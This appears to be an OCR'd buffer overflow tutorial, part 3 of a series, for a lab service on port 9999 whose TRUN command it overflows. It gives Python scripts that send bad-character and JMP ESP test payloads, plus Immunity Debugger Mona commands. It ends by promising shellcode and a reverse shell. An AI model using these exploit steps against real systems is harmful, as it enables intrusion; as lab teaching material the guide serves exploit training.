# Buffer Overflow Guide - Part 3
## Finding Bad Characters and Return Address

### 1. Bad Characters Testing
Create `badchars.py`:

```python
#!/usr/bin/python3
import socket

host = "172.29.98.109"
port = 9999

# All possible characters
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

offset = 2003  # Use your confirmed offset
buffer = "A" * offset
eip = "B" * 4
payload = buffer + eip + badchars

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    print("[+] Sending bad chars...")
    s.send(bytes("TRUN /.:/" + payload, "latin-1"))
    s.close()
    print("[+] Payload sent!")
except:
    print("[-] Could not connect!")
```

### 2. Finding Return Address (JMP ESP)

1. In Immunity Debugger, use Mona to find modules:
```
!mona modules
```

2. Look for modules with all security settings set to False

3. Find JMP ESP instruction in the module:
```
!mona find -s "\xff\xe4" -m essfunc.dll
```

4. Verify address works:
- Double-click address in CPU window
- Should show JMP ESP instruction
- Note: Convert address to little-endian format for exploit

### 3. Test Return Address
Create `test_jmp.py`:

```python
#!/usr/bin/python3
import socket

host = "172.29.98.109"
port = 9999

offset = 2003
buffer = "A" * offset
# Replace with your JMP ESP address in little-endian format
# Example: If address is 625011AF, use \xaf\x11\x50\x62
eip = "\xaf\x11\x50\x62"
nops = "\x90" * 16  # NOP sled
payload = buffer + eip + nops

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    print("[+] Testing JMP ESP...")
    s.send(bytes("TRUN /.:/" + payload, "latin-1"))
    s.close()
    print("[+] Payload sent!")
except:
    print("[-] Could not connect!")
```

### Expected Results:
1. Bad characters test: Look for truncated or modified characters in memory dump
2. Return address: Should find usable JMP ESP instruction
3. Test script: EIP should contain JMP ESP address

### Tips for Analysis:
1. In Immunity Debugger:
   - Use Memory dump to verify bad characters
   - Set breakpoint at JMP ESP address (F2)
   - Step through with F7 to verify execution flow

### Next Steps:
Once you've:
- Identified bad characters (if any)
- Found a reliable JMP ESP address
- Verified execution reaches your NOP sled

We can proceed to:
1. Generate shellcode
2. Create final exploit
3. Get reverse shell
